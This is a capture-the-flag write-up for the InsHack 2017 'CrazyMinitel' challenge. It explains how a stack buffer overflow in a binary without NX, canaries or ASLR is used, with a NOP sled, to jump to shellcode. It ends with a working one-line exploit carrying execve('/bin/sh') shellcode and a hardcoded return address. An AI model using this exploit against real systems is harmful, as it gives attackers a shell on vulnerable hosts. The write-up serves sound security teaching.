 ```yaml
---
title: "CrazyMinitel | InsHack 2017"
tags: ["pwn", "stack overflow", "shellcode"]
points: 125
solves: 77
---
```


Today we will solve a simple pwnable challenge by inserting shellcode on the stack with a nop sled, and then jumping to it.

## Checksec
```
Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX disabled       (<- we CAN use shellcode)
PIE:      No PIE
ASLR:     DISABLED          (<- we CAN realiably know where the stack is)
```

## Solution
The program just echos the input. If the input is large enough the buffer is overflowed, so, since we can use shellcode lets just return to our buffer in the stack and run `execve("/bin/sh", NULL, NULL)`.

We can reliably return to our buffer because we can first get its location in gdb and we know it won't change since ASLR is disabled. The address can change slightly since environment variables are stored on the stack and if for example you change directory, $PWD will have a different value and shift the stack around.

To bypass this we can use a `nop sled`. A nop sled is just a bunch of `nop`s (the assembly instruction for no operation, aka does nothing), making it possible to jump anywhere in the nop sled range and execute our shellcode regardless of jumping perfectly to the start of our shellcode or anywhere in the middle of the `nop`s.

The solution is simply:
 - Send `nop..nop..nop...shellcode` for a total length of 230
 - Send `A`'s to pad until we get to the point on the stack where we are about to overwrite the saved `eip`
 - Overwrite the saved `eip` with a value pointing to somewhere in the middle of the nops (find this in gdb). In this case it was `0xbffffaa0`. We write it as `\xa0\xfa\xff\xbf` because the bytes are stored in little endian

```
./vuln $(python -c "print '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80'.rjust(230,'\x90') + 'A'*(268-230) + '\xa0\xfa\xff\xbf'")
```